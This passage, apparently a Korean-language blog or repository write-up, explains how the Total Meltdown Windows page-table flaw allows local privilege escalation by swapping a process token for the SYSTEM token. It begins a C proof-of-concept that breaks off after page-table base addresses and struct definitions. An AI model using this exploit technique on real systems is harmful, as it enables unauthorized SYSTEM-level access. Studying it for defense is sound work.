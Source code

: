 ### Total Meltdown 취약점을 이용한 권한상승
해당 취약점을 통해서 우리는 유저 모드에서 page table을 수정할 수 있으며, 이를 통해 모든 물리 주소를 접근할 수 있다. 이를 통해 현재 실행 중인 프로세스의 EPROCESS 주소를 구하고, 해당 토큰 값을 system 토큰으로 바꿔 권한 상승을 수행할 수 있다. 아래는 PoC 코드이다.

### PoC 코드
```C
#include "windows.h"
#include "stdio.h"

#define	PML4_BASE	0xFFFFF6FB7DBED000
#define	PDP_BASE	0xFFFFF6FB7DA00000
#define	PD_BASE		0xFFFFF6FB40000000
#define	PT_BASE	0xFFFFF68000000000

typedef LARGE_INTEGER PHYSICAL_ADDRESS, * PPHYSICAL_ADDRESS;

#pragma pack(push,4)
typedef struct _CM_PARTIAL_RESOURCE_DESCRIPTOR {
	UCHAR Type;
	UCHAR ShareDisposition;
	USHORT Flags;
	union {
		struct {
			PHYSICAL_ADDRESS Start;
			ULONG Length;
		} Generic;

		struct {
			PHYSICAL_ADDRESS Start;
			ULONG Length;
		} Port;

		struct {
#if defined(NT_PROCESSOR_GROUPS)
			USHORT Level;
			USHORT Group;
#else
			ULONG Level;
#endif
			ULONG Vector;
			KAFFINITY Affinity;
		} Interrupt;

		struct {
			union {
				struct {
#if defined(NT_PROCESSOR_GROUPS)
					USHORT Group;
#else
					USHORT Reserved;
#endif
					USHORT MessageCount;
					ULONG Vector;
					KAFFINITY Affinity;
				} Raw;

				struct {
#if defined(NT_PROCESSOR_GROUPS)
					USHORT Level;
					USHORT Group;
#else
					ULONG Level;
#endif
```